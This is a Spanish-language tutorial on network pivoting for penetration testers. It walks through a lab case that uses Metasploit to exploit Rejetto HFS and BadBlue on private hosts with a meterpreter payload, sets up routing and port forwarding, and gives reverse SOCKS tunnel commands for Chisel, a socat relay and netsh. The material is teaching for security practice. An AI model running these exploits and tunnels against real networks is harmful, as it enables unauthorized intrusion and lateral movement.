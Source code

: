 # Pivoting en Ciberseguridad

## Introducción
El pivoting es una técnica esencial en el mundo de la ciberseguridad que implica moverse lateralmente dentro de una red comprometida para acceder a sistemas y recursos adicionales. Esta técnica es utilizada por los profesionales de seguridad para mantener y expandir el acceso a través de una infraestructura comprometida.

## ¿Qué es el Pivoting?
En términos sencillos, el pivoting se refiere a la acción de utilizar una máquina comprometida como punto de entrada para acceder a otros sistemas dentro de la red. Esta técnica es particularmente útil cuando se ha obtenido acceso a un sistema perimetral y se busca infiltrarse en segmentos de red más internos.

## Tipos de Pivoting
Existen varios tipos de pivoting en función de cómo se realiza el movimiento lateral:

- **Pivoting Directo:** Se realiza desde la máquina comprometida hacia otros sistemas dentro de la misma red.
- **Pivoting a Través de Saltos:** Implica moverse a través de múltiples máquinas comprometidas para alcanzar el objetivo deseado.
- **Pivoting en Cadena:** Consiste en conectar varios sistemas comprometidos para llegar a la red objetivo.

## Herramientas y Técnicas
Para llevar a cabo el pivoting, los profesionales de seguridad utilizan herramientas y técnicas específicas, como:

- **SSH Túneles:** Establecer conexiones seguras a través de SSH para redirigir tráfico.
- **Proxychains:** Enrutamiento de tráfico a través de una cadena de proxies.
- **Port Forwarding:** Redireccionamiento de puertos para acceder a servicios internos.
- **VPN y Socks:** Uso de VPN o servidores SOCKS para ocultar el origen del tráfico.

## Importancia en la Ciberseguridad
El pivoting es una habilidad crucial para los analistas de seguridad y los pentesters, ya que les permite comprender la amplitud de una infracción y evaluar la exposición potencial en una red comprometida. Además, ayuda a identificar y remediar posibles puntos de entrada y movimiento lateral en futuros ataques.

## Caso Práctico
![Pivoting](pivoting.png)

Esta imagen en lo personal me encanta, ilustra de manera perfecta de lo que quiere tratar el pivoting, en base a esta imagen vamos a tener una máquina víctima con IP 10.4.20.196 y otra máquina víctica con IP 10.4.20.195. El primer equipo, es vulnerable a rejetto_hfs_exec.
```python
Victim Machine 1 : 10.4.20.196
Victim Machine 2 : 10.4.20.195
nmap -sV 10.4.20.196
//tiene una vulnerabilidad en 80/tcp    open  http               HttpFileServer httpd 2.3
use exploit/windows/http/rejetto_hfs_exec
set rhosts 10.4.20.196
ipconfig
//Interface 12 vemos lo siguiente
IPv4 Address : 10.4.20.196
IPv4 Netmask : 255.255.240.0
//debemos de establecer un ruteo para leer otras IP
run autoroute -s 10.4.20.0/20
background (ahora si guardamos la sesión)
use auxiliary/scanner/portscan/tcp (para escanear puertos)
set rhosts 10.4.20.195 (IP target 2)
set PORTS 1-100
run
//veremos algo como esto
[+] 10.4.20.195:          - 10.4.20.195:80 - TCP OPEN
//retornamos a la sesion para hacer un port foward
session 1
portfwd add -l 1234 -p 80 -r 10.4.20.195 (IP del target 2)
portfwd list (para validar)
//sin cerrar metasploit ejecutamos los siguiente en una terminal
nmap -sV -sS -p 1234 localhost
1234/tcp open  http    BadBlue httpd 2.7
//hay una vulnerabalidad para eso
use exploit/windows/http/badblue_passthru
set PAYLOAD windows/meterpreter/bind_tcp
set RHOSTS 10.4.20.195 (IP del objetivo 2)
run
background
session
(veremos 2 sesiones !!)
```

## Chisel, Socat y Proxychains
Como no hablar del favorito de todos, te permite realizar el pivoting y moverte de forma lateral por la red teniendo el control de las comunicaciones. Chisel es una herramienta que permite crear túneles TCP sobre conexiones HTTP y HTTPS. Puede ser utilizado tanto en la máquina comprometida como en la máquina atacante para establecer una comunicación segura y encriptada entre ellas. Chisel es útil para sortear restricciones de firewall y para acceder a sistemas internos desde una posición comprometida. Socat es una utilidad multipropósito que permite crear conexiones bidireccionales entre dos puntos. Puede utilizarse para redirigir tráfico, modificar datos en tránsito y más. Socat es versátil y se adapta a diversas necesidades de pivoting. Proxychains es una herramienta que permite enrutar conexiones a través de una cadena de servidores proxy. Es especialmente útil para mantener el anonimato y redirigir tráfico a través de múltiples puntos.

##Chisel

```python
./chisel server --reverse -p 1234 (servidor - tu equipo)
./chisel client 192.168.1.41:1234 R:socks (cliente - víctima)
./chisel client 10.10.0.128:2111 R:8888:socks (segundo cliente - víctima)
```

##Socat

```python
./socat TCP-LISTEN:4343,fork TCP:192.168.1.41:8080
```

##Proxychains

```python
socks5  127.0.0.1 8888
socks5  127.0.0.1 1080
```

##Netsh - Socat en Windows

```python
netsh interface portproxy add v4tov4 listenport=8787 listenaddress=0.0.0.0 connectport=8788 connectaddress=192.168.100.128
```

Toma en cuenta lo siguiente, conforme vas aumentando los clientes con el chisel, el puerto debe de ir en el proxychains y lo pones encima del último que has agregado como se muestra en el ejemplo proporcionado.
